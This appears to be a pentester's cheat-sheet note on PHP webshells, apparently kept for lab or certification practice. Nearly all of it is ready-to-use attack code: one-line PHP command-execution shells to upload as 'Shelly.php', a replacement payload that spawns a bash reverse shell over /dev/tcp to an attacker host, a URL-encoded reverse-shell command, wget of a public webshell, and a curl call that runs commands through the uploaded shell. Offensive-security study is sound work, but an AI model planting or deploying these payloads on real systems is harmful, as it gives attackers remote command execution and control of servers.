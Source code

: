 Uploading files? Try [[16._File upload]]
### asp, aspx, cfm, jsp, laudanum, perl, php
```
ls /usr/share/webshells
```
`asp aspx cfm jsp laudanum perl php`
```bash - kali
cp /usr/share/webshells/
```
### PHP
#### wwolf
```bash - kali
wget https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php
```
![[Python#Server]]
#### php reverse shell payload
If you see php payload in exploit, replace with the following for reverse shell:
![[1._rlwrap]]
ORIGINAL:
```
payload = '<?php if($_POST["password"]=="' + password + '"){eval($_POST["cmd"]);}else{echo "<title>404 Not Found</title><h1>Not Found</h1>";}?>'
```
REPLACE WITH:
```php
payload = '<?php passthru("bash -i >& /dev/tcp/$KALI/80 0>&1"); ?>'
```
#### Pentestmonkey
```bash - kali
cp /usr/share/webshells/php/php-reverse-shell.php ./Shelly.php
```
https://github.com/pascal-gujer/webshellz
#### File upload webshells
Try saving this as 'Shelly.php' file, upload and access.
```php
<?php system($_GET['cmd']);?>
```
```php
<?php echo($_GET['cmd']);?>
```
```php
<?php echo shell_exec($_GET['cmd']);?>
```
![[1._rlwrap]]
```bash - target
bash+-c+'bash+-i+>%26+/dev/tcp/$KALI/443+0>%261'
```
```php
<?php exec("bash -c 'bash -i >& /dev/tcp/$TARGET/80 0>&1'");?>
```
```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```
![[1._rlwrap]]
Upload and access Shelly.php.
```bash - kali
curl http://$TARGET/uploads/Shelly.php?cmd=id
```